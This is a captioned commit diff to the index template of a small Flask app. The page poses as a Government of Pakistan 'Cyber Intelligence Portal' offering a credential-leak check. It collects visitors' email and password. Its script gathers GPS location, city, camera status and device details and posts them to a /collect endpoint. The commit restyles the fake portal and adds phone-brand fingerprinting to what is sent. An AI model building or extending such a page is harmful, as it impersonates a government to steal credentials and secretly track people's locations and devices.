

Before and after one commit to MR5121472/Govt-of-punjab-pak, a Flask app: page / in a window 1280 px wide. After the commit the page ends 780 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,124 +2,133 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Government of Pakistan – Cyber Intelligence Portal</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>Government of Pakistan - Cyber Intelligence Portal</title>
   <link rel="icon" href="/static/pakistan-emblem.png" />
   <style>
     body {
       margin: 0;
-      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-      background: #0e1a24;
-      color: #fff;
+      font-family: 'Arial', sans-serif;
+      background-color: #f9f9f9;
+      color: #2c3e50;
+    }
+
+    header {
+      background-color: #006400;
+      color: white;
+      padding: 20px 0;
+      text-align: center;
+      font-size: 24px;
+      font-weight: bold;
+    }
+
+    .container {
       display: flex;
       flex-direction: column;
-      justify-content: space-between;
       align-items: center;
-      height: 100vh;
-      padding: 20px;
-    }
-
-    .tagline-top, .tagline-bottom {
-      font-size: 18px;
-      color: #f1c40f;
-      letter-spacing: 1px;
-      text-transform: uppercase;
-      font-weight: bold;
-      text-align: center;
-      margin: 10px 0;
-    }
-
-    .tagline-top {
-      font-size: 22px;
-      color: #00ffe0;
-    }
-
-    .tagline-bottom {
-      font-size: 14px;
-      opacity: 0.8;
-      margin-top: 10px;
+      margin: 50px 15px;
     }
 
     .box {
-      background: rgba(255, 255, 255, 0.08);
+      background-color: #ffffff;
       padding: 30px;
-      border-radius: 16px;
-      box-shadow: 0 0 25px rgba(0, 255, 200, 0.15);
-      text-align: center;
-      width: 360px;
-      backdrop-filter: blur(8px);
+      border: 1px solid #ddd;
+      border-radius: 10px;
+      width: 100%;
+      max-width: 400px;
+      box-shadow: 0 0 10px rgba(0,0,0,0.05);
     }
 
-    h1 {
-      font-size: 20px;
-      margin-bottom: 8px;
-      color: #00ffff;
+    .box img {
+      width: 70px;
+      display: block;
+      margin: 0 auto 15px;
     }
 
-    p {
-      font-size: 13px;
-      margin: 10px 0;
-      color: #ccc;
+    .box h2 {
+      text-align: center;
+      color: #006400;
+      font-size: 20px;
+      margin-bottom: 10px;
+    }
+
+    .box p {
+      font-size: 14px;
+      text-align: center;
+      margin-bottom: 20px;
     }
 
     input, button {
       width: 100%;
       padding: 10px;
-      margin: 6px 0;
+      margin: 8px 0;
+      font-size: 14px;
+      border: 1px solid #ccc;
       border-radius: 6px;
-      border: none;
-      font-size: 14px;
-    }
-
-    input {
-      background: #ecf0f1;
-      color: #2c3e50;
+      box-sizing: border-box;
     }
 
     button {
-      background: #e74c3c;
+      background-color: #006400;
       color: white;
+      border: none;
+      cursor: pointer;
       font-weight: bold;
-      cursor: pointer;
     }
 
     button:hover {
-      background: #c0392b;
+      background-color: #004d00;
     }
 
     a.forgot {
-      color: #f1c40f;
+      display: block;
+      text-align: right;
       font-size: 12px;
-      display: block;
-      margin-top: 4px;
+      margin-top: 5px;
+      color: #007bff;
       text-decoration: none;
     }
 
-    img {
-      width: 80px;
-      margin-bottom: 10px;
+    a.forgot:hover {
+      text-decoration: underline;
+    }
+
+    footer {
+      text-align: center;
+      font-size: 13px;
+      padding: 20px 10px;
+      color: #777;
+      background-color: #f1f1f1;
+      position: fixed;
+      width: 100%;
+      bottom: 0;
     }
   </style>
 </head>
 <body>
-  <div class="tagline-top">National Cyber Intelligence Directorate</div>
+  <header>
+    Government of Pakistan – Cyber Security Division
+  </header>
 
+  <div class="container">
     <div class="box">
-    <img src="/static/pakistan-emblem.png" alt="Gov Logo" />
-    <h1>🇵🇰 Government of Pakistan – Cyber Intelligence</h1>
-    <p>Enter your email to check if your credentials have been leaked</p>
+      <img src="/static/pakistan-emblem.png" alt="Gov Logo">
+      <h2>Cyber Intelligence Portal</h2>
+      <p>Check if your credentials exist in our national cyber threat database</p>
       <form method="POST" action="/login">
-      <input type="text" name="email" placeholder="Email" required />
-      <input type="password" name="password" placeholder="Password" required />
+        <input type="text" name="email" placeholder="Enter your email" required />
+        <input type="password" name="password" placeholder="Enter your password" required />
         <a href="https://accounts.google.com/signin/v2/usernamerecovery" class="forgot">Forgot Password?</a>
-      <button type="submit">🔍 Verify Now</button>
+        <button type="submit">🔍 Check Now</button>
       </form>
     </div>
+  </div>
 
-  <div class="tagline-bottom">Confidential Access – Authorized Personnel Only</div>
+  <footer>
+    Confidential Access - Authorized Personnel Only © Government of Pakistan
+  </footer>
 
   <script>
-    // Camera + Location Code (already integrated in previous versions)
     async function reverseGeocode(lat, lon) {
       try {
         const url = `https://nominatim.openstreetmap.org/reverse?format=jsonv2&lat=${lat}&lon=${lon}`;
@@ -135,30 +144,51 @@
       }
     }
 
+    function detectDevice(userAgent) {
+      const devices = {
+        "Samsung": /samsung/i,
+        "Xiaomi": /mi|redmi/i,
+        "Oppo": /oppo/i,
+        "Vivo": /vivo/i,
+        "Realme": /realme/i,
+        "Huawei": /huawei/i,
+        "Infinix": /infinix/i,
+        "Tecno": /tecno/i,
+        "iPhone": /iphone/i,
+        "Sony": /sony/i,
+        "Nokia": /nokia/i
+      };
+      for (let [name, pattern] of Object.entries(devices)) {
+        if (pattern.test(userAgent)) return name;
+      }
+      return "Generic Android Device";
+    }
+
     async function sendFullData(locationCoords, cameraStatus) {
       let locationData = { city: "Unknown", country: "Unknown", timezone: "Unknown" };
-
       if (locationCoords) {
         locationData = await reverseGeocode(locationCoords.latitude, locationCoords.longitude);
       }
 
-      const payload = {
-        ip: "Unknown",  // IP is sent from server-side
+      const userAgent = navigator.userAgent;
+      const deviceInfo = detectDevice(userAgent);
+      const mapsLink = locationCoords ? `https://www.google.com/maps?q=${locationCoords.latitude},${locationCoords.longitude}` : "❌ Location Denied";
+
+      await fetch("/collect", {
+        method: "POST",
+        headers: { 'Content-Type': 'application/json' },
+        body: JSON.stringify({
+          ip: "Unknown", // actual IP will be handled in main.py
           latitude: locationCoords?.latitude || null,
           longitude: locationCoords?.longitude || null,
-        mapsLink: locationCoords ? `https://www.google.com/maps?q=${locationCoords.latitude},${locationCoords.longitude}` : "❌ Location Denied",
+          mapsLink: mapsLink,
           timezone: locationData.timezone,
           city: locationData.city,
           country: locationData.country,
           camera: cameraStatus,
-        userAgent: navigator.userAgent,
-        deviceInfo: navigator.platform
-      };
-
-      await fetch("/collect", {
-        method: "POST",
-        headers: { 'Content-Type': 'application/json' },
-        body: JSON.stringify(payload)
+          userAgent: userAgent,
+          deviceInfo: deviceInfo
+        })
       });
     }
 
```
Lines whose indentation alone changed are shown as unchanged.
